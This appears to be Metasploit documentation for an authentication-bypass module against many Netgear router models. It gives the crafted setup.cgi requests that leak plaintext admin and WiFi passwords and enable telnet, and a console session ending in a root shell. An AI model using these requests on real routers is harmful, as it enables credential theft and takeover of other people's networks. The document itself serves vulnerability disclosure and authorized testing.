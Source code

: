 ## Vulnerable Application

### Intro
This module targets an authentication bypass vulnerability in the `mini_http` binary of several Netgear Routers
running firmware versions prior to `1.2.0.88`, `1.0.1.80`, `1.1.0.110`, and `1.1.0.84`.

Specifically, a call to `strstr()` is used to check if requests are authenticated, which searches any requests
that come in to an authenticated page to see if it contains the string `todo=PNPX_GetShareFolderList` anywhere
within the request. By including the string `todo=PNPX_GetShareFolderList` in the request,

By using this vulnerability to send a request to `/setup.cgi` with the `next_file` GET parameter set to `BRS_swisscom_success.html`
and a `x` GET parameter set to `todo=PNPX_GetShareFolderList`, an unauthenticated attacker can leak the plaintext versions of
all of the router's WiFi passwords, as well as the admin username and plaintext admin password for the router.

Once the password has been been obtained, the exploit enables telnet on the target router by sending a request to `setup.cgi`
with the `todo` GET parameter set to `debug`. Once telnet has been enabled, it then utilizes the
`auxiliary/scanner/telnet/telnet_login` module to log into the router using the stolen credentials of the
`admin` user. This will result in the attacker obtaining a new telnet session as the `root` user.

This vulnerability was discovered and exploited by an independent security researcher who reported it to SSD.

### Affected Versions

- AC2100 prior to firmware version 1.2.0.88
- AC2400 prior to firmware version 1.2.0.88
- AC2600 prior to firmware version 1.2.0.88
- D7000 prior to firmware version 1.0.1.80
- R6220 prior to firmware version 1.1.0.110
- R6230 prior to firmware version 1.1.0.110
- R6260 prior to firmware version 1.1.0.84
- R6330 prior to firmware version 1.1.0.84
- R6350 prior to firmware version 1.1.0.84
- R6700v2 prior to firmware version 1.2.0.88
- R6800 prior to firmware version 1.2.0.88
- R6850 prior to firmware version 1.1.0.84
- R6900v2 prior to firmware version 1.2.0.88
- R7200 prior to firmware version 1.2.0.88
- R7350 prior to firmware version 1.2.0.88
- R7400 prior to firmware version 1.2.0.88
- R7450 prior to firmware version 1.2.0.88

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/admin/http/netgear_pnpx_getsharefolderlist_auth_bypass`
  3. Do: `set RHOSTS <RouterIP>`
  5. Do: `exploit`
  6. Verify that you get a new telnet shell as the `root` user on the target router.

## Options

## Scenarios

### Netgear AC1600 aka R6260 with Firmware Version 1.1.0.40_1.0.1
```
    msf6 > use auxiliary/admin/http/netgear_pnpx_getsharefolderlist_auth_bypass
    msf6 auxiliary(admin/http/netgear_pnpx_getsharefolderlist_auth_bypass) > set RHOSTS 192.168.1.1
    RHOSTS => 192.168.1.1
    msf6 auxiliary(admin/http/netgear_pnpx_getsharefolderlist_auth_bypass) > show options

    Module options (auxiliary/admin/http/netgear_pnpx_getsharefolderlist_auth_bypass):

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
    RHOSTS   192.168.1.1      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metaspl
                                        oit
    RPORT    80               yes       The target port (TCP)
    SSL      false            no        Negotiate SSL/TLS for outgoing connections
    VHOST                     no        HTTP server virtual host

    msf6 auxiliary(admin/http/netgear_pnpx_getsharefolderlist_auth_bypass) > run
    [*] Running module against 192.168.1.1

    [*] Running automatic check ("set AutoCheck false" to disable)
    [*] Target is a R6260 router running firmware version 1.1.0.40_1.0.1
    [+] The target appears to be vulnerable.
    [*] Confirming target is a Netgear Router...
    [+] Target is a Netgear router!
    [*] Attempting to leak the password of the admin user...
    [+] Can log into target router using username admin and password theRiverOfNope123!
    [*] Attempting to retrieve /top.html to verify we are logged in!
    [*] Sending one request to grab authorization cookie from headers...
    [*] Got the authentication cookie, associating it with a logged in session...
    [+] Successfully logged into target router using the stolen credentials!
    [*] Attempting to store credentials for future use...
    [*] Enabling telnet on the target router...
    [+] Telnet enabled on target router!
    [*] Attempting to log in with admin:theRiverOfNope123!. You should get a new telnet session as the root user
    [*] Command shell session 1 opened (192.168.224.128:38283 -> 192.168.1.1:23) at 2021-09-22 13:56:50 -0500
    [*] Auxiliary module execution completed
    msf6 auxiliary(admin/http/netgear_pnpx_getsharefolderlist_auth_bypass) > sessions -i 1
    [*] Starting interaction with 1...



    # id
    id
    -sh: id: not found
    # whoami
    whoami
    -sh: whoami: not found
    # uname -a
    uname -a
    Linux R6260 2.6.36 #7 SMP Fri Jul 20 17:14:50 CST 2018 mips unknown
    # ls -al
    ls -al
    drwxr-xr-x   12 root     root          286 Jun 21  2016 .
    drwxr-xr-x   12 root     root          286 Jun 21  2016 ..
    lrwxrwxrwx    1 root     root            9 Jul 20  2018 bin -> usr/sbin/
    drwxrwxr-x    2 root     root            3 Aug 15  2015 data
    drwxr-xr-x    5 root     root            0 Dec 31 16:00 dev
    lrwxrwxrwx    1 root     root            8 Jul 20  2018 etc -> /tmp/etc
    lrwxrwxrwx    1 root     root           11 Jul 20  2018 etc_ro -> /tmp/etc_ro
    lrwxrwxrwx    1 root     root           20 Jul 20  2018 home -> /tmp/home_directory/
    lrwxrwxrwx    1 root     root           11 Jul 20  2018 init -> bin/busybox
    drwxr-xr-x    6 root     root         4629 Jul 20  2018 lib
    drwxr-xr-x    2 root     root            0 Dec 31 16:00 media
    lrwxrwxrwx    1 root     root            8 Jul 20  2018 mnt -> /tmp/mnt
    drwxrwxr-x    6 root     root           73 Jul 20  2018 opt
    dr-xr-xr-x  113 root     root            0 Dec 31 16:00 proc
    lrwxrwxrwx    1 root     root            9 Jul 20  2018 sbin -> usr/sbin/
    drwxr-xr-x   11 root     root            0 Dec 31 16:00 sys
    drwxr-xr-x   16 root     root            0 Dec 31 19:21 tmp
    drwxr-xr-x   10 root     root          151 Jun 21  2016 usr
    lrwxrwxrwx    1 root     root            8 Jul 20  2018 var -> /tmp/var
    lrwxrwxrwx    1 root     root            8 Jul 20  2018 www -> /tmp/www
    drwxrwxr-x    8 root     root        16662 Jul 20  2018 www.eng
    # busybox
    busybox
    BusyBox v1.12.1 (2018-07-18 20:59:15 CST) multi-call binary
    Copyright (C) 1998-2008 Erik Andersen, Rob Landley, Denys Vlasenko
    and others. Licensed under GPLv2.
    See source distribution for full notice.

    Usage: busybox [function] [arguments]...
    or: function [arguments]...

            BusyBox is a multi-call binary that combines many common Unix
            utilities into a single executable.  Most people will create a
            link to busybox for each function they wish to use and BusyBox
            will act like whatever it was invoked as!

    Currently defined functions:
            [, [[, arp, ash, awk, basename, bunzip2, bzcat, cat, chmod, chpasswd,
            cp, cut, date, dd, df, dmesg, echo, expr, false, fdisk, find, free,
            ftpget, grep, gzip, halt, head, hexdump, hostname, ifconfig, init,
            init, insmod, kill, killall, ln, login, ls, lsmod, md5sum, mdev,
            mkdir, mknod, more, mount, mv, netstat, nice, passwd, pidof, ping,
            ping6, poweroff, ps, pwd, reboot, renice, rm, rmmod, route, sed,
            seq, sh, sleep, sync, tail, tar, taskset, telnetd, test, tftp,
            time, top, touch, tr, traceroute, true, umount, uname, unzip, vconfig,
            vi, wc, wget

    #
```
